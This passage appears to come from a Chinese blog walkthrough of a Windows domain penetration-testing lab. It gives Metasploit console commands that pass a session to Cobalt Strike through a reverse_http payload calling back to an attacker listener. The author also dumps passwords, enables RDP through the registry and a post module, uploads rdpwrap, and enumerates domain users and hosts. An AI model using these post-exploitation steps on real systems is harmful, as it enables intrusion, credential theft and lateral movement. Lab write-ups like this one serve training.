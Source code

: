 ```shell
meterpreter > background
[*] Backgrounding session 11...
msf5 exploit(multi/handler) > use exploit/windows/local/payload_inject
msf5 exploit(windows/local/payload_inject) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf5 exploit(windows/local/payload_inject) > set lhost 192.168.54.130
lhost => 192.168.54.130
msf5 exploit(windows/local/payload_inject) > set lport 8090
lport => 8090
msf5 exploit(windows/local/payload_inject) > set DisablePayloadHandler true
DisablePayloadHandler => true
msf5 exploit(windows/local/payload_inject) > set session 1
session => 1
msf5 exploit(windows/local/payload_inject) > run
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200411164836322.PNG?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhaWRlMjAxMg==,size_16,color_FFFFFF,t_70#pic_center)

使用CS尝试尝试抓取密码
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200411170439927.PNG?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhaWRlMjAxMg==,size_16,color_FFFFFF,t_70#pic_center)

尝试远程桌面登录，发现3389端口未开启，于是尝试开启端口
netstat -an | find "3389"
chcp 65001

```shell
REG ADD HKLMSYSTEMCurrentControlSetControlTerminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

发现还是连接不上，尝试关闭防火墙。

```shell
run post/windows/manage/enable_rdp
```

然后尝试使用抓取的用户密码登录

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200411171852486.PNG?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhaWRlMjAxMg==,size_16,color_FFFFFF,t_70#pic_center)
远程桌面登录，发现非服务器的windows只能允许一个用户登录，如果一定要登录就会让已经登录了的用户下线
上传Windows用户多开工具rdpwrap

接下来进行本地信息搜集发现
* 多网卡
* 域控信息
* 其他重要文件等信息

域：god.org

域内有三个用户：Administrator、ligang、liukaifeng01

域内三台主机：ROOT-TVI862UBEH(192.168.52.141)、STU1(win7)、OWA

域控：OWA(192.168.52.138)

win7内网ip：192.168.52.143
